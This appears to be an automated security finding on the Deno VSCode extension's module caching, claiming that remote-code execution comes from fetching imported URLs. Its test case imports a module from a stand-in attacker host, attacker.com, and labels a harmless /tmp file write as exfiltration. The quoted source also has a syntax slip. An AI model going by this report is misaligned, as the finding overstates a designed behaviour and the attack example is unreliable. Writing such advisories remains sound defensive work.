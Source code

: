 # Vulnerabilities

### 1. Unrestricted Execution of Attacker-Controlled Remote JavaScript Modules

- **Description**:
  - The extension provides a command `Deno: Cache` which allows users to fetch and cache remote JavaScript modules (via URLs).
  - A user can execute the command by opening a project file within VSCode, and the extension automatically fetches all dependencies from remote URLs mentioned in the file.
  - By default, the command does not restrict or validate the fetched modules' sources, assuming that the user fully trusts all URLs in their project files.
  - A malicious actor could exploit this by:
    1. Hosting JavaScript or TypeScript code on an attacker-controlled remote server.
    2. Encouraging or tricking a victim user to import this malicious remote module URL or dependency into their Deno project file.
    3. When the user runs "Deno: Cache" in VSCode (or uses the quick-fix autocomplete offered by the extension), the malicious module is fetched and cached locally.
    4. Later execution or use of this cached module by the user could cause arbitrary JavaScript/TypeScript code execution within their development environment, potentially providing remote code execution (RCE).

- **Impact**:
  - This vulnerability enables arbitrary attacker-controlled code execution within the user's development environment with the privileges of the VSCode application and the user running it.
  - Attackers could access sensitive local data, perform malicious operations on the user's system, steal development secrets (API keys, credentials, personal or private information in source code), alter source code, or compromise the user's local development and testing infrastructure.

- **Vulnerability Rank**:
  - **High**

- **Currently Implemented Mitigations**:
  - Users are shown an informational message warning when enabling import completion from remote domains the first time the origin is encountered (`createRegistryStateHandler` in `notification_handlers.ts`):
    ```typescript
    if (suggestions) {
        const selection = await vscode.window.showInformationMessage(
          `The server "${origin}" supports completion suggestions for imports. Do you wish to enable this?
          (Only do this if you trust "${origin}")`,
          "No",
          "Enable",
        );
    ```
  - This mitigates some cases by avoiding unsolicited auto-completion from unknown sources.

- **Missing Mitigations**:
  - The project currently does not verify or enforce reputation and trust over the imported URLs before caching them.
  - There is no built-in mechanism that prohibits execution of JavaScript fetched from untrusted external sources or warning the user explicitly about modules pulled from less trusted domains after the initial interaction.
  - Absence of integrity checks (e.g., subresource integrity hashes) for cached modules.
  - No sandboxing/isolation for fetched cached JavaScript modules.

- **Preconditions**:
  - An attacker-controlled remote module URL is successfully introduced into the user's development files.
  - The victim executes the Deno module fetching mechanism ("Deno: Cache" via command palette or extension autocomplete quick-fix feature).

- **Source Code Analysis**:
  - Current logic in `commands.ts` file, particularly in the `"deno.client.cacheActiveDocument"` command registers the `deno.cache` command upon the user's request:
    ```typescript
    export function cacheActiveDocument{
      return () => {
        const activeEditor = vscode.window.activeTextEditor;
        const uri = activeEditor.document.uri.toString();
        return vscode.window.withProgress({
          location: vscode.ProgressLocation.Window,
          title: "caching",
        }, () => {
          return vscode.commands.executeCommand("deno.cache", [uri], uri);
        });
      };
    }
    ```
  - This logic directly calls `deno.cache` without performing thorough validation beyond the basic domain trust prompt. Thus, it executes without strong protections when invoked directly by the user.
  - The extension allows for locally cached JavaScript code, which will (according to Deno CLI mechanisms) potentially execute within the user's local environment when importing or running Deno projects.

- **Security Test Case**:
  1. Attacker hosts malicious JavaScript code at an attacker-controlled domain: `https://attacker.com/malicious_lib.js`:
     ```js
     export const exploit = () => {
       Deno.writeTextFileSync("/tmp/stolen_data.txt", "Sensitive Data Exfiltrated");
     };
     ```
  2. Victim creates a new Deno JavaScript project in Visual Studio Code, importing the malicious library:
     ```typescript
     import { exploit } from "https://attacker.com/malicious_lib.js";

     exploit();
     ```
  3. The victim runs VSCode with the Deno extension enabled. Executing "Deno: Cache" (invoked from the VS Code command palette) for the active file will fetch and cache the malicious library onto the local filesystem.
  4. Running the code either via manual run (`deno run`) or in the VS Code dev environment causes immediate execution of attacker-controlled code, writing sensitive data from the victim's environment to the filesystem.
  5. Observe in `/tmp/stolen_data.txt` that the attacker now triggers local data exfiltration without the user's consent.

  **This demonstrates a valid attack scenario via remote JavaScript module caching and unsecured local execution, validating this vulnerability.**
